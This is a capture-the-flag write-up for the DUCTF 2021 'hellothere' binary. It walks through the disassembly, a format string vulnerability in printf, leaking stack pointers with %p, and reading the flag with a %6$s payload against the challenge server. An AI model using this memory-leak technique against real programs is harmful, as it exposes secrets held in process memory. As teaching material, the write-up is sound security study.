For this challenge, we are presented with a single binary named "hellothere". When we run it, we are prompted to enter a name and upon doing so are greeted and then asked to enter a name again. The process repeats in a loop.

```
$ ./hellothere 
What is your name?
name

Hello there, name

What is your name?
```

Here's the disassembly of the main() function.

```asm
┌ 196: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_60h @ rbp-0x60
│           ; var file*stream @ rbp-0x58
│           ; var char *format @ rbp-0x50
│           ; var char *s @ rbp-0x30
│           ; var int64_t var_8h @ rbp-0x8
│           0x000011d8      55             push rbp
│           0x000011d9      4889e5         mov rbp, rsp
│           0x000011dc      4883ec60       sub rsp, 0x60
│           0x000011e0      64488b042528.  mov rax, qword fs:[0x28]
│           0x000011e9      488945f8       mov qword [var_8h], rax
│           0x000011ed      31c0           xor eax, eax
│           0x000011ef      488d45d0       lea rax, [s]
│           0x000011f3      488945a0       mov qword [var_60h], rax
│           0x000011f7      b800000000     mov eax, 0
│           0x000011fc      e894ffffff     call sym.buffer_init
│           0x00001201      488d35000e00.  lea rsi, [0x00002008]       ; "r" ; const char *mode
│           0x00001208      488d3dfb0d00.  lea rdi, str.._flag.txt     ; 0x200a ; "./flag.txt" ; const char *filename
│           0x0000120f      e86cfeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00001214      488945a8       mov qword [stream], rax
│           0x00001218      48837da800     cmp qword [stream], 0
│       ┌─< 0x0000121d      7516           jne 0x1235
│       │   0x0000121f      488d3df20d00.  lea rdi, str.The_flag_file_isnt_loading._Please_contact_an_organiser_if_you_are_running_this_on_the_shell_server. ; 0x2018 ; "The flag file isn't loading. Please contact an organiser if you are running this on the shell server." ; const char *s
│       │   0x00001226      e815feffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x0000122b      bf00000000     mov edi, 0                  ; int status
│       │   0x00001230      e85bfeffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x121d
│       └─> 0x00001235      488b55a8       mov rdx, qword [stream]     ; FILE *stream
│           0x00001239      488d45d0       lea rax, [s]
│           0x0000123d      be20000000     mov esi, 0x20               ; "@" ; int size
│           0x00001242      4889c7         mov rdi, rax                ; char *s
│           0x00001245      e826feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           ; CODE XREF from main @ 0x129a
│       ┌─> 0x0000124a      488d3d2d0e00.  lea rdi, str.What_is_your_name_ ; 0x207e ; "What is your name?" ; const char *s
│       ╎   0x00001251      e8eafdffff     call sym.imp.puts           ; int puts(const char *s)
│       ╎   0x00001256      488b15132e00.  mov rdx, qword [obj.stdin]  ; obj.stdin_GLIBC_2.2.5
│       ╎                                                              ; [0x4070:8]=0 ; FILE *stream
│       ╎   0x0000125d      488d45b0       lea rax, [format]
│       ╎   0x00001261      be20000000     mov esi, 0x20               ; "@" ; int size
│       ╎   0x00001266      4889c7         mov rdi, rax                ; char *s
│       ╎   0x00001269      e802feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│       ╎   0x0000126e      488d3d1c0e00.  lea rdi, str._nHello_there__ ; 0x2091 ; "\nHello there, " ; const char *format
│       ╎   0x00001275      b800000000     mov eax, 0
│       ╎   0x0000127a      e8e1fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x0000127f      488d45b0       lea rax, [format]
│       ╎   0x00001283      4889c7         mov rdi, rax                ; const char *format
│       ╎   0x00001286      b800000000     mov eax, 0
│       ╎   0x0000128b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x00001290      bf0a000000     mov edi, 0xa                ; int c
│       ╎   0x00001295      e896fdffff     call sym.imp.putchar        ; int putchar(int c)
└       └─< 0x0000129a      ebae           jmp 0x124a

```

In the prologue we can see that it's making 96 bytes (0x60) of space on the stack and then storing a canary value at the end of that space, although this value is not used because main doesn't return. Next it **TODO**. Next it calls a buffer_init() function which disables buffering on standard input, standard output, and standard error which is commonly done in these types of problems. Next it attempts to open a file (./flag.txt) and reads it into a buffer on the stack which starts at 48 bytes (0x30) into the reserved space. If the file can't be opened, it prints an error message and calls exit().

After reading the flag into the buffer, it prompts the user to enter a name and reads the up to 32 bytes (0x20) of user input into a stack buffer starting at rbp-0x50. It then prints the greeting by calling printf() twice, first with a static string containing "\nHello there, " and second with the address of the buffer the user input was read into. It then calls putchar() to send a newline character.

Because the first argument to printf() is the "format string", passing unsanitized user input as the first argument to printf() can result in a format string vulnerability. In this case, we can use this vulnerability to leak the contents of the buffer which the flag file's contents were written into.

In order to do this, we need to know which numbered parameter holds the pointer to that buffer. One way to figure this out is to just send a bunch of "%p" format strings to leak pointers and use a debugger to figure out which one we're looking for. If we do that here, we get the following output:

```
What is your name?
%p %p %p %p %p %p %p %p %p %p

Hello there, 0x7fffffffb830 (nil) (nil) 0x7fffffffdec0 0xe 0x7fffffffdee0 0x5555555592a0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```

If we set a breakpoint at main+184 so that we pause execution following the printf() call which is leaking data and inspect stack contents, we see the following:

```
00:0000│ rsp 0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 'flag{placeholder}\n'
01:0008│     0x7fffffffdeb8 —▸ 0x5555555592a0 ◂— 0xfbad2488
02:0010│     0x7fffffffdec0 ◂— '%p %p %p %p %p %p %p %p %p %p\n'
03:0018│     0x7fffffffdec8 ◂— ' %p %p %p %p %p %p %p\n'
04:0020│     0x7fffffffded0 ◂— 'p %p %p %p %p\n'
```

In this case, I created a "placeholder" flag so that I could develop and test the exploit locally. We can see that the flag file contents were read into a buffer at 0x7fffffffdee0. If we count from the first pointer leak, until we find that address, we can see that it's positional parameter six. We can leak the sixth positional parameter by sending a format string of %6$s.

Here's the output when run against the challenge server:

```
$ python hellothere.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] Switching to interactive mode

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
```

